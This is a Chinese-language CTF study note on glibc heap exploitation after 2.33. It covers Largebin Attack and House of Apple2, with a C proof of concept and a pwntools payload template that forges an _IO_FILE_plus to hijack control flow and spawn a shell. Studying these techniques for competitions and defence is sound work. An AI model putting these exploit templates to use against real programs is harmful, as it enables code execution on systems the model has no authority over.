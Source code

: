 ```yaml
---
id: glibc-simple
aliases: []
tags:
  - Glibc
date: 2023-02-28 00:25:13
draft: true
title: GLIBC - exploitation-in-latest-glibc-0x00 基本思路
---
```


> [!TLDR] 
> **在选择更复杂的打法前，先看看能不能 IO leak 泄漏栈地址打 ROP（更容易调试）**

「卷 Glibc 版本」这件事情和常见的用户态 PWN 题（尤其是国内比赛）几乎完全绑定在了一起，故在此记录 2.33 失去 `__free_hook` 之后的常规题做法。主要包括：

- 有公式做题就是快之「只能申请大堆块 - Largebin Attack」
- 有公式做题就是快之「新版本下的控制流劫持首选 - [House of Apple2](https://bbs.kanxue.com/thread-273832.htm)」
- 典中典之「强网杯必考 off by null」

其实 IO 里面也远不只是 Apple2 这条利用链，但是这条链是要求最少 + 资料最多的，所有 IO 劫持控制流都绕不开篡改 `((struct _IO_FILE_plus *) _IO_list_all)->vtable`，利用思路差不多，就没必要去卷其它链。

> [!INFO] 
> 公式以外的情况多半时候都可以到持续更新的 [how2heap](https://github.com/shellphish/how2heap) 上找一些灵感，例如：
>
> - 在没有泄漏的情况下通过双重异或盲绕过 tcache 异或保护 - [safe link double protect](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/safe_link_double_protect.c)
> - 在没有泄漏的情况下把 libc 相关地址放入 tcache 中 - [House of Water](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/house_of_water.c)
> - 没有显式 free 情况下的现代版 House of Orange - [House of Tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c)
> - 让 tcache double free 再次伟大 - [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c)
>
> 各种花里胡哨的利用方法也在持续更新，可以一直关注 [how2heap](https://github.com/shellphish/how2heap)，甚至还提供了网页端调试器，非常好 cheatsheet❤️

## Largebin Attack

Largebin Attack 利用手段自 glibc 2.23 起一直存在，近期 IO 相关利用丰富起来后重新变得热门。

> [!NOTE] 
> 古早时期的 Unsortedbin Attack 效果与 Largebin Attack 类似，都是向任意地址写入一个值，通常被用于赋写 `mp_.tcache_bins` 或者 `global_max_fast` 为一个大数，进而打更容易利用的 tcache / fastbin 完成攻击。
>
> 但是现在 Unsortedbin Attack 已经不再可行，取而代之的是条件更加严苛的 Largebin Attack，不过后者还可以确定写入的是指定堆块的地址，这也带来了一些 data-only attack 的机会，例如赋写 `_IO_list_all` 为堆块地址，并在其中伪造 `_IO_FILE_plus` 结构体用 House of Apple2 劫持控制流。

```c
/*
A revisit to large bin attack for after glibc2.30

Relevant code snippet :

	if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk)){
		fwd = bck;
		bck = bck->bk;
		victim->fd_nextsize = fwd->fd;
		victim->bk_nextsize = fwd->fd->bk_nextsize;
		fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; // 任意写效果：伪造的 bk_nextsize
	}
*/

int main(){
  printf("Since glibc2.30, two new checks have been enforced on large bin chunk insertion\n\n");
  printf("Check 1 : \n");
  printf(">    if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))\n");
  printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (nextsize)\");\n");
  printf("Check 2 : \n");
  printf(">    if (bck->fd != fwd)\n");
  printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (bk)\");\n\n");
  printf("This prevents the traditional large bin attack\n");
  printf("However, there is still one possible path to trigger large bin attack. The PoC is shown below : \n\n");

  size_t target = 0;
  size_t *p1 = malloc(0x428);
  size_t *g1 = malloc(0x18);
  size_t *p2 = malloc(0x418);
  size_t *g2 = malloc(0x18);
  free(p1);
  printf("Free the larger of the two --> [p1] (%p)\n",p1-2);
  size_t *g3 = malloc(0x438);
  printf("Allocate a chunk larger than [p1] to insert [p1] into large bin\n");

  printf("\n");

  free(p2);

  p1[3] = (size_t)((&target)-4);

  size_t *g4 = malloc(0x438);
  assert((size_t)(p2-2) == target);
  return 0;
}
```

## Apple2 板子

> [!quote]
> 对 fp 的设置如下：
>
> - `_flags` 设置为 `~(2 | 0x8 | 0x800)`，如果不需要控制 rdi，设置为0即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有两个空格
> - `vtable` 设置为 `_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap` 地址（加减偏移），使其能成功调用 `_IO_wfile_overflow` 即可
> - `_wide_data` 设置为可控堆地址 A，即满足 `*(fp + 0xa0) = A`
> - `_wide_data->_IO_write_base` 设置为 0，即满足 `*(A + 0x18) = 0`
> - `_wide_data->_IO_buf_base` 设置为 0，即满足 `*(A + 0x30) = 0`
> - `_wide_data->_wide_vtable` 设置为可控堆地址 B，即满足 `*(A + 0xe0) = B`
> - `_wide_data->_wide_vtable->doallocate` 设置为地址 C 用于劫持 RIP，即满足 `*(B + 0x68) = C`
> - **`_lock` 设置为可写地址；`mode` 设置大于 0**
>
> 函数的调用链如下：
>
> ```c
> _IO_wfile_overflow
>     _IO_wdoallocbuf
>         _IO_WDOALLOCATE
>             *(fp->_wide_data->_wide_vtable + 0x68)(fp)
> ```

对于常规的 exit 中有如下调用利用链：

```c
exit
    __run_exit_handlers
        _IO_cleanup
            _IO_flush_all_lockp
                _IO_wfile_overflow
```

板子如下：

```python
"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            # 0x200 - 0x10: {0x68: [0xDEADBEEF]},
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)
```
